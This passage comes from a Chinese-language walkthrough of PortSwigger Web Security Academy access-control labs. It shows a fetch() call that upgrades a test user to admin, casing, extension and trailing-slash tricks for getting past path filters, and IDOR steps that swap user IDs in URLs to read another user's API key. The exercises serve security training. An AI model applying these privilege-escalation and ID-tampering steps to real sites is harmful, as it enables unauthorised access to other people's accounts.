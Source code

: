 如果能用 `wiener:peter` 這組帳密成功戳這個 Endpoint，就可以成功把自己變成 admin 角色

嘗試用 GET

```js
fetch(`${location.origin}/admin-roles?username=wiener&action=upgrade`);
```

成功通關

## Lab: User ID controlled by request parameter

| Dimension | Description                                                                                     |
| --------- | ----------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/access-control#horizontal-privilege-escalation             |
| Lab       | https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter |

前面有學到一些 Bypass 技巧，不過這題不會用到

- Casing `/ADMIN/DELETEUSER` => `/admin/deleteUser`
- File Extension `/admin/deleteUser.anything` => `/admin/deleteUser`
- Trailing Slash `/admin/deleteUser/` => `/admin/deleteUser`

訪問 `https://0a52004f035c8b3882635c1f00e900c8.web-security-academy.net/my-account?id=carlos`，成功得到 carlos 的 API Key

## Lab: User ID controlled by request parameter, with unpredictable user IDs

| Dimension | Description                                                                                                                 |
| --------- | --------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/access-control#horizontal-privilege-escalation                                         |
| Lab       | https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-unpredictable-user-ids |

用預設帳密登入後，可以看到 https://0a0e00a604c82a40829ad81900a500f5.web-security-academy.net/my-account?id=1d0d7b4b-b1d4-474d-b821-83d74a423531

在 blog 頁面找到 carlos 的 userid https://0a0e00a604c82a40829ad81900a500f5.web-security-academy.net/blogs?userId=89698705-87d4-4e8e-8bbc-27eb9139b859

訪問 https://0a0e00a604c82a40829ad81900a500f5.web-security-academy.net/my-account?id=89698705-87d4-4e8e-8bbc-27eb9139b859 ，成功～

## Lab: User ID controlled by request parameter with data leakage in redirect

| Dimension | Description                                                                                                                   |
| --------- | ----------------------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/access-control#horizontal-privilege-escalation                                           |
| Lab       | https://portswigger.net/web-security/access-control/lab-user-id-controlled-by-request-parameter-with-data-leakage-in-redirect |
